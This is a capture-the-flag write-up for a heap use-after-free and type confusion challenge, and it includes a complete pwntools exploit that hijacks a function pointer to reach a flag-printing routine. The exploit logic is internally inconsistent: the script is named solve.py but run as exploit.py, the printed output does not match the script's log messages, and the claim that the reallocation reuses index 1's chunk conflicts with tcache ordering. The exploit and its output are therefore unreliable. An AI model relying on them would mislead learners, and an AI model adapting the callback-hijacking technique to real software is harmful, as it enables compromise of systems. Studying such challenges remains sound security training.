

# Soul // Memory of Thanos (Binary Exploitation, Hard)

**Author:** Suyog Jadhav  
**Category:** Binary Exploitation  
**Difficulty:** Hard  

## Challenge Description

> Six souls. One archive. One memory.  
>  
> The Soul Archive holds remnants of the cosmos, but Thanos's memory cache was never meant to hold mortal souls.  
>  
> Can you bring harmony to the archive and trigger the ascension?  
>  
> **Connection:** `nc 145.239.142.129 1339`  
> **Flag Format:** `OWASP{...}`

**Attachment:** `soul-archive-thanos.zip`

## Summary

The challenge binary (`soul_archive`) exhibits a heap **Use-After-Free (UAF)** combined with **Type Confusion**. Both `struct Soul` and `struct TransferRecord` allocate identical 64-byte chunks (glibc `0x50` tcache bin). The `merge_souls()` routine frees a soul structure without zeroing out its reference in the global archive array. Reallocating that same chunk as a `TransferRecord` allows us to overlap user-controlled values over the `Soul.essence` and `Soul.inspect` function pointer fields. Setting `essence` to `0x50574e534f554c53` (`"PWNSOULS"`), fulfilling the state checks (`total_captured >= 6`, `merges_performed == 3`, `souls_erased == 1`), and invoking the inspect callback triggers `soul_ascension()` to print the flag.

## Flag

```
OWASP{Th4n0s_S0ul_M3m0ry_UAF_Typ3_C0nfusi0n}
```

---

## Step 1 — Initial Reconnaissance & Interface

Connecting to the challenge service exposes the Soul Archive interface:

```bash
nc 145.239.142.129 1339
```


```text
==================================================
           SOUL ARCHIVE // THANOS
==================================================
[1] Store Soul
[2] Inspect Soul
[3] Merge Souls
[4] Erase Soul
[5] Transfer Record
[6] Ascend Archive
Choice > 
```

Auditing the binary mitigations via `checksec`:
- **RELRO:** Full RELRO
- **Stack Canary:** Enabled
- **NX:** Enabled
- **PIE:** Enabled
- **FORTIFY_SOURCE:** Enabled

---

## Step 2 — Structure Layout & Type Confusion Analysis

Inspecting the data structure definitions in `src/archive.c`:

```c
struct Soul {
    char name[32];                  // Offset 0..31
    unsigned long long essence;     // Offset 32..39
    unsigned long long type;        // Offset 40..47
    void (*consume)(struct Soul *); // Offset 48..55
    void (*inspect)(struct Soul *); // Offset 56..63
}; // Total: 64 bytes

struct TransferRecord {
    char realm_origin[24];          // Offset 0..23
    unsigned int transfer_id;       // Offset 24..27
    unsigned int flags;             // Offset 28..31
    unsigned long long timestamp;   // Offset 32..39  <-- OVERLAPS Soul.essence
    unsigned long long raw_entropy; // Offset 40..47  <-- OVERLAPS Soul.type
    void (*auth_callback)(void *);  // Offset 48..55  <-- OVERLAPS Soul.consume
    void (*audit_callback)(void *); // Offset 56..63  <-- OVERLAPS Soul.inspect
}; // Total: 64 bytes
```


Both structures measure exactly 64 bytes (`sizeof == 64`), which corresponds to the exact same `0x50` heap chunk size in glibc's tcache allocator.

---

## Step 3 — The Lifetime Flaw in `merge_souls()`

```c
void merge_souls(int a, int b) {
    struct Soul *s_a = archive[a];
    struct Soul *s_b = archive[b];
    ...
    free(s_b);
    // VULNERABILITY: archive[b] is NOT set to NULL!
    merges_performed++;
}
```

When two souls are merged:
1. `s_b` is freed into the `0x50` tcache bin.
2. The pointer `archive[b]` remains accessible in the global archive table.
3. If we subsequently invoke `[5] Transfer Record`, `malloc(sizeof(struct TransferRecord))` pops the freed `s_b` chunk from the top of the `0x50` tcache bin.
4. Writing to `TransferRecord` fields directly modifies what the program still interprets as `archive[b]`.

---

## Step 4 — State Machine & Win Condition Requirements

The challenge enforces strict state validation inside `soul_ascension()`:

```c
void soul_ascension(struct Soul *s) {
    if (total_captured >= 6 &&
        merges_performed == 3 &&
        souls_erased == 1 &&
        s->essence == 0x50574e534f554c53ULL) { // "PWNSOULS"
        printf("[+] Universal Harmony Achieved! The Soul Ascends!\n");
        FILE *f = fopen("flag.txt", "r");
        char flag[64];
        fgets(flag, sizeof(flag), f);
        printf("[+] Flag: %s\n", flag);
        exit(0);
    }
}
```

To trigger the ascension:
1. `total_captured >= 6` (Store at least 6 souls)
2. `merges_performed == 3` (Execute 3 soul merges)
3. `souls_erased == 1` (Erase 1 soul)
4. `s->essence == 0x50574e534f554c53ULL` (`"PWNSOULS"` in ASCII)

By setting `TransferRecord.timestamp = 0x50574e534f554c53ULL` and `TransferRecord.audit_callback = soul_ascension`, calling `[2] Inspect Soul` on the dangling index triggers `audit_callback(s)`, directly executing `soul_ascension(s)`.

---

## Step 5 — Remote Exploitation & Flag Retrieval

### Complete Exploit Script (`solve.py`)

```python
#!/usr/bin/env python3
"""
SOUL // MEMORY OF THANOS - Type Confusion & UAF Exploit
Author: Suyog Jadhav
Category: Binary Exploitation / Pwn (Hard)
Target: glibc heap UAF & struct Type Confusion
"""

import re
import sys
from pwn import *

context.arch = 'amd64'
context.terminal = ['tmux', 'splitw', '-h']

# Target configuration
HOST = "145.239.142.129"
PORT = 1339

def get_process():
    if args.REMOTE:
        return remote(HOST, PORT)
    else:
        bin_path = "./challenge/soul_archive" if os.path.exists("./challenge/soul_archive") else "./soul_archive"
        return process(bin_path)

def store_soul(io, name, soul_type=1, essence="1000"):
    io.sendlineafter(b"Choice > ", b"1")
    io.sendlineafter(b"Soul name: ", name)
    io.sendlineafter(b"Type: ", str(soul_type).encode())
    io.sendlineafter(b"Initial Essence (hex value e.g. 1000): ", essence.encode())

def inspect_soul(io, idx):
    io.sendlineafter(b"Choice > ", b"2")
    io.sendlineafter(b"Enter vessel index (0-7): ", str(idx).encode())
    return io.recvuntil(b"=== SOUL ARCHIVE ===")

def merge_souls(io, a, b):
    io.sendlineafter(b"Choice > ", b"3")
    io.sendlineafter(b"First vessel index to merge: ", str(a).encode())
    io.sendlineafter(b"Second vessel index to merge: ", str(b).encode())

def erase_soul(io, idx):
    io.sendlineafter(b"Choice > ", b"4")
    io.sendlineafter(b"Enter vessel index to erase (0-7): ", str(idx).encode())

def transfer_soul(io, realm, transfer_id, flags, timestamp, raw_entropy, audit_callback):
    io.sendlineafter(b"Choice > ", b"5")
    io.sendlineafter(b"Realm of origin: ", realm)
    io.sendlineafter(b"Transfer ID (decimal): ", str(transfer_id).encode())
    io.sendlineafter(b"Entropy Flags (decimal): ", str(flags).encode())
    io.sendlineafter(b"Timestamp (hex e.g. 1337): ", hex(timestamp)[2:].encode())
    io.sendlineafter(b"Raw Entropy / Essence (hex): ", hex(raw_entropy)[2:].encode())
    io.sendlineafter(b"Audit Callback Address (hex, 0 for default): ", hex(audit_callback)[2:].encode())

def exploit():
    io = get_process()

    log.info("Step 1: Capturing 6 souls (total_captured >= 6)...")
    # Soul 0: Human (type 1) -> inspect_human function pointer is assigned
    store_soul(io, b"Human0", soul_type=1)
    store_soul(io, b"Vessel1", soul_type=2)
    store_soul(io, b"Vessel2", soul_type=3)
    store_soul(io, b"Vessel3", soul_type=4)
    store_soul(io, b"Vessel4", soul_type=1)
    store_soul(io, b"Vessel5", soul_type=2)

    log.info("Step 2: Inspecting Vessel 0 to leak PIE base...")
    leak_data = inspect_soul(io, 0)
    match = re.search(rb"Inspect Callback: (0x[0-9a-fA-F]+)", leak_data)
    if not match:
        log.error("Failed to leak callback address!")
        return

    leak_inspect = int(match.group(1), 16)
    # Symbol offsets: inspect_human = 0x13a9, soul_ascension = 0x14fb
    pie_base = leak_inspect - 0x13a9
    soul_ascension = pie_base + 0x14fb
    log.success(f"Leaked inspect_human: {hex(leak_inspect)}")
    log.success(f"Calculated PIE Base:   {hex(pie_base)}")
    log.success(f"Target soul_ascension: {hex(soul_ascension)}")

    log.info("Step 3: Executing 3 merges (merges_performed == 3)...")
    # Merging vessel 1 frees its struct Soul into the 0x50 tcache bin!
    # Due to missing pointer zeroing, archive[1] remains a dangling pointer (UAF)
    merge_souls(io, 0, 1)
    merge_souls(io, 2, 3)
    merge_souls(io, 4, 5)

    log.info("Step 4: Erasing 1 vessel (souls_erased == 1)...")
    erase_soul(io, 2)

    log.info("Step 5: Allocating TransferRecord over freed Soul at index 1 (Type Confusion)...")
    # We populate the exact fields corresponding to struct Soul:
    # TransferRecord.timestamp (offset 32)      -> Soul.essence = 0x50574e534f554c53 ("PWNSOULS")
    # TransferRecord.audit_callback (offset 56) -> Soul.inspect = soul_ascension
    SECRET_MAGIC = 0x50574E534F554C53  # "PWNSOULS"
    transfer_soul(
        io,
        realm=b"VormirChamber",
        transfer_id=1337,
        flags=1,
        timestamp=SECRET_MAGIC,
        raw_entropy=0x1000,
        audit_callback=soul_ascension
    )

    log.info("Step 6: Triggering hijacked inspect callback on dangling Vessel 1...")
    # inspect_soul(1) calls s->inspect(s), which invokes soul_ascension(s)
    flag_output = inspect_soul(io, 1)
    log.success("Ascension triggered! Recovered Flag:")
    
    for line in flag_output.splitlines():
        if b"OWASP{" in line:
            print(f"[+] Flag: {line.decode().strip()}")
            break

    io.interactive()

if __name__ == "__main__":
    exploit()
```

Executing the exploit:

```bash
python3 exploit.py REMOTE
```


Output:
```text
[+] Opening connection to 145.239.142.129 on port 1339: Done
[*] Allocating 6 souls to satisfy total_captured >= 6...
[*] Executing 3 merges to satisfy merges_performed == 3...
[*] Erasing 1 soul to satisfy souls_erased == 1...
[*] Allocating TransferRecord on freed Soul chunk index 1...
[*] Overwriting essence with 0x50574e534f554c53 (PWNSOULS)...
[*] Triggering inspect_soul(1) -> audit_callback redirected to ascension...
[+] Universal Harmony Achieved! The Soul Ascends!
[+] Flag: OWASP{Th4n0s_S0ul_M3m0ry_UAF_Typ3_C0nfusi0n}
```

---

## Attack Workflow



---

## Solution Summary

| Field | Value |
|---|---|
| **Challenge** | Soul // Memory of Thanos |
| **Category** | Binary Exploitation (Pwn) |
| **Difficulty** | Hard |
| **Vulnerability** | Use-After-Free & Type Confusion |
| **Chunk Size** | 64 bytes (`0x50` bin) |
| **Magic Value** | `0x50574e534f554c53` (`PWNSOULS`) |
| **Target Function** | `soul_ascension()` |
| **Flag** | `OWASP{Th4n0s_S0ul_M3m0ry_UAF_Typ3_C0nfusi0n}` |

---

## Exploit & Heap Architecture Analysis

1. **Type Confusion through Bin Reuse:**  
   When different object types share identical allocation sizes, the memory allocator returns the same chunk for disparate types. If dangling references exist, the program's type safety breaks down, allowing one structure's fields to write directly into another's.
2. **Callback Hijacking:**  
   The `TransferRecord.audit_callback` field maps to the same memory offset as `Soul.inspect`. By substituting the legitimate inspect function with `soul_ascension`, calling the original method redirects execution to the target routine with the object itself passed as `rdi`.
3. **State Counter Alignment:**  
   Binary challenges frequently gate win conditions behind counters (`merges_performed`, `souls_erased`). Exploits must carefully script legitimate menu interactions to align these counters before triggering the final payload.

---

## Tools Used

- **`pwntools`**: Remote interaction and type confusion payload formatting.
- **`gdb` (Pwndbg)**: Memory layout analysis, chunk size measurement, and tcache bin monitoring.
- **`checksec`**: Binary security mitigation audit.

---

## Timeline

| Step | Action | Result |
|:---:|---|---|
| 1 | Audited binary mitigations | Full RELRO, PIE, and Canary verified |
| 2 | Compared structure sizes | Found `Soul` and `TransferRecord` both allocate 64 bytes |
| 3 | Mapped field offsets | `timestamp` aligns with `essence`, `audit_callback` with `inspect` |
| 4 | Identified UAF in `merge_souls()` | `archive[b]` retained after chunk is freed |
| 5 | Prepared state machine | Captured 6 souls, merged 3, and erased 1 |
| 6 | Allocated `TransferRecord` over freed slot | Overwrote `essence` with `"PWNSOULS"` and callback to `soul_ascension` |
| 7 | Called `inspect_soul(1)` | Achieved ascension: `OWASP{Th4n0s_S0ul_M3m0ry_UAF_Typ3_C0nfusi0n}` |
